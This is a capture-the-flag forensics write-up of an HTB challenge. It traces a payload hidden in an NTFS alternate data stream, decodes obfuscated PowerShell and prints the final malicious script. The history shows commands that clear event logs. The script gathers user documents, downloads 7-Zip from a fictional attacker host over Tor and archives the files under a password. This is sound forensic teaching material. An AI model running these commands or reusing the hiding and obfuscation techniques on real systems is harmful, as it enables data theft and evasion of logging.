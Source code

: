 ```yaml
---
layout: post
title: "HTB Cyber Apocalypse CTF 2023- Artifacts of Dangerous Sightings [Forensic]"
categories: ctf
tags: fore blast_o mz4b
date: 2023-03-24 10:00:00 +0100
author: blast_o, mz4b
---
```


# Artifacts of Dangerous Sightings - Difficulty: medium

### `Pandora has been using her computer to uncover the secrets of the elusive relic. She has been relentlessly scouring through all the reports of its sightings. However, upon returning from a quick coffee break, her heart races as she notices the Windows Event Viewer tab open on the Security log. This is so strange! Immediately taking control of the situation she pulls out the network cable, takes a snapshot of her machine and shuts it down. She is determined to uncover who could be trying to sabotage her research, and the only way to do that is by diving deep down and following all traces ...`

<br>
<br>

We are given the following file `2023-03-09T132449_PANDORA.vhdx`


By analyzing the available evidences, we found the following interesting file:

`C\Users\Pandora\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
```powershell
type finpayload > C:\Windows\Tasks\ActiveSyncProvider.dll:hidden.ps1
exit
Get-WinEvent
Get-EventLog -List
wevtutil.exe cl "Windows PowerShell" 
wevtutil.exe cl Microsoft-Windows-PowerShell/Operational
Remove-EventLog -LogName "Windows PowerShell"
Remove-EventLog -LogName Microsoft-Windows-PowerShell/Operational
Remove-EventLog
```


The command `type finpayload > C:\Windows\Tasks\ActiveSyncProvider.dll:hidden.ps1` is used to redirect the output of the `type finpayload"` command to the file `hidden.ps1` inside the file `ActiveSyncProvider.dll` located in the `C:\Windows\Tasks` folder.

The contents of `finpayload` are written to  "hidden.ps1" that is hidden inside the `ActiveSyncProvider.dll` file, as an **Alternate Data Stream**. Alternate Data Streams (ADS) are a file attribute only found on the NTFS file system.

By using the `Get-Item` command in PowerShell we can check all the data streams of the `ActiveSyncProvider.dll` file

``` powershell
Get-Item .\ActiveSyncProvider.dll -stream *

PSPath        : Microsoft.PowerShell.Core\FileSystem::D:\CTF\HTBCTF\forensics_artifacts_of_dangerous_sightings\ActiveSyncProvider.dll::$DATA                PSParentPath  : Microsoft.PowerShell.Core\FileSystem::D:\CTF\HTBCTF\forensics_artifacts_of_dangerous_sightings                                              PSChildName   : ActiveSyncProvider.dll::$DATA                                                                                                               PSDrive       : D                                                                                                                                           PSProvider    : Microsoft.PowerShell.Core\FileSystem                                                                                                        PSIsContainer : False                                                                                                                                       FileName      : D:\CTF\HTBCTF\forensics_artifacts_of_dangerous_sightings\ActiveSyncProvider.dll                                                             Stream        : :$DATA                                                                                                                                      Length        : 1707520  

PSPath        : Microsoft.PowerShell.Core\FileSystem::D:\CTF\HTBCTF\forensics_artifacts_of_dangerous_sightings\ActiveSyncProvider.dll:hidden.ps1            PSParentPath  : Microsoft.PowerShell.Core\FileSystem::D:\CTF\HTBCTF\forensics_artifacts_of_dangerous_sightings                                              PSChildName   : ActiveSyncProvider.dll:hidden.ps1                                                                                                           PSDrive       : D                                                                                                                                           PSProvider    : Microsoft.PowerShell.Core\FileSystem                                                                                                        PSIsContainer : False                                                                                                                                       FileName      : D:\CTF\HTBCTF\forensics_artifacts_of_dangerous_sightings\ActiveSyncProvider.dll                                                             Stream        : hidden.ps1                                                                                                                                  Length        : 175838    

```

We can now see what is inside this ADS:
``` powershell
Get-Content .\ActiveSyncProvider.dll -stream hidden.ps1

powerShell.exe -WindowStyle hiddeN -ExecuTionPolicy ByPasS -enc JAB7AFsAfgBAAH0AIAA9ACAAJAAoACkAOwAgACQAewAhACEAQAAhACEAXQB9ACAAPQAgACsAKwAkAHsAWwB+AEAAfQA7ACAAJAB7AFsAWwAhAH0AIAA9ACAALQAtACQAewBbAH4AQAB9ACAAKwAgACQAewAhACEAQAAhACEAXQB9ACAAKwAgACQAewAhACEAQAAhACEAXQB9ADsAIAAkAHsAfgB+AH4AXQB9ACAAPQAgACQAewBbAFsAIQB9ACAAKwAgACQAewAhACEAQAAhACEAXQB9ADsAIAAkAHsAWwAhACEAWwAhAH0AIAA9ACAAJAB7AFsAWwAhAH0AIAArACAAJAB7AFsAWwAhAH0AOwAgACQAewAoAH4AKAAhAH0AIAA9ACAAJAB7AH4AfgB...

```

Let's decode the b64 string found:
```
${[~@} = $(); ${!!@!!]} = ++${[~@}; ${[[!} = --${[~@} + ${!!@!!]} + ${!!@!!]}; ${~~~]} = ${[[!} + ${!!@!!]}; ${[!![!} = ${[[!} + ${[[!}; ${(~(!} = ${~~~]} + ${[[!}; ${!~!))} = ${[!![!} + ${[[!}; ${((!} = ${!!@!!]} + ${[!![!} + ${[[!}; ${=!!@!!}  = ${~~~]} - ${!!@!!]} + ${!~!))}; ${!=} =  ${((!} - ${~~~]} + ${!~!))} - ${!!@!!]}; ${=@!~!} = "".("$(@{})"[14]+"$(@{})"[16]+"$(@{})"[21]+"$(@{})"[27]+"$?"[1]+"$(@{})"[3]); ${=@!~!} = "$(@{})"[14]+"$?"[3]+"${=@!~!}"[27]; ${@!=} = "["+"$(@{})"[7]+"$(@{})"[22]+"$(@{})"[20]+"$?"[1]+"]";
"${@!=}${~~~]}${(~(!} + ${@!=}${~~~]}${(~(!} + ${@!=}${~~~]}${(~(!} + ${@!=}${~~~]}${[[!} + ${@!=}${[!![!}${!~!))} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${[!![!}${!~!))} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${[!![!}${!~!))} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${[!![!}${!~!))} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${[!![!}${!~!))} + ${@!=}${~~~]}${[[!} + ${@!=}${[!![!}${!~!))} + ${@!=}${~~~]}${[[!} + ${@!=}${~~~]}${[[!} + ${@!=}${ ...
```

This is obfuscated Powershell code, we modify it to be able to execute it safely and the following command is what is finally executed:

```
[Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]43 + [Char]32 + [Char]32 + [Char]46 + [Char]10 + [Char]35 + [Char]35 + [Char]35 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]32 + [Char]46 + [Char]32 + [Char]32 + [Char]58 + [Char]32 + ... | iex
```

Finally, we can decode that output with a simple pytohn script and get the flag:

```python
with open('chars.txt', 'r') as file:
    input_str = file.read()
output_str = ''
for char in input_str.split(' + '):
    char = char.strip('[Char]')
    output_str += chr(int(char))

print(output_str)
```
```powershell
### .     .       .  .   . .   .   . .    +  .
###   .     .  :     .    .. :. .___---------___.
###        .  .   .    .  :.:. _".^ .^ ^.  '.. :"-_. .
###     .  :       .  .  .:../:            . .^  :.:\.
###         .   . :: +. :.:/: .   .    .        . . .:\
###  .  :    .     . _ :::/:                         .:\
###   .. . .   . - : :.:./.                           .:\
###  .   .     : . : .:.|. ######               #######::|
###   :.. .  :-  : .:  ::|.#######             ########:|
###  .  .  .  ..  .  .. :\ ########           ######## :/
###   .        .+ :: : -.:\ ########         ########.:/
###     .  .+   . . . . :.:\. #######       #######..:/
###       :: . . . . ::.:..:.\                   ..:/
###    .   .   .  .. :  -::::.\.       | |       .:/
###       .  :  .  .  .-:.":.::.\               .:/
###  .      -.   . . . .: .:::.:.\            .:/
### .   .   .  :      : ....::_:..:\   ___   :/
###    .   .  .   .:. .. .  .: :.:.:\       :/
###      +   .   .   : . ::. :.:. .:.|\  .:/|
### SCRIPT TO DELAY HUMAN RESEARCH ON RELIC RECLAMATION
### STAY QUIET - HACK THE HUMANS - STEAL THEIR SECRETS - FIND THE RELIC
### GO ALLIENS ALLIANCE !!!
function makePass
{
    $alph=@();
    65..90|foreach-object{$alph+=[char]$_};
    $num=@();
    48..57|foreach-object{$num+=[char]$_};

    $res = $num + $alph | Sort-Object {Get-Random};
    $res = $res -join '';
    return $res;
}

function makeFileList
{
    $files = cmd /c where /r $env:USERPROFILE *.pdf *.doc *.docx *.xls *.xlsx *.pptx *.ppt *.txt *.csv *.htm *.html *.php;
    $List = $files -split '\r';
    return $List;
}

function compress($Pass)
{
    $tmp = $env:TEMP;
    $s = 'https://relic-reclamation-anonymous.alien:1337/prog/';
    $link_7zdll = $s + '7z.dll';
    $link_7zexe = $s + '7z.exe';

    $7zdll = '"'+$tmp+'\7z.dll"';
    $7zexe = '"'+$tmp+'\7z.exe"';
    cmd /c curl -s -x socks5h://localhost:9050 $link_7zdll -o $7zdll;
    cmd /c curl -s -x socks5h://localhost:9050 $link_7zexe -o $7zexe;

    $argExtensions = '*.pdf *.doc *.docx *.xls *.xlsx *.pptx *.ppt *.txt *.csv *.htm *.html *.php';

    $argOut = 'Desktop\AllYourRelikResearchHahaha_{0}.zip' -f (Get-Random -Minimum 100000 -Maximum 200000).ToString();
    $argPass = '-p' + $Pass;

    Start-Process -WindowStyle Hidden -Wait -FilePath $tmp'\7z.exe' -ArgumentList 'a', $argOut, '-r', $argExtensions, $argPass -ErrorAction Stop;
}

$Pass = makePass;
$fileList = @(makeFileList);
$fileResult = makeFileListTable $fileList;
compress $Pass;
$TopSecretCodeToDisableScript = "HTB{Y0U_C4nt_St0p_Th3_Alli4nc3}"
```
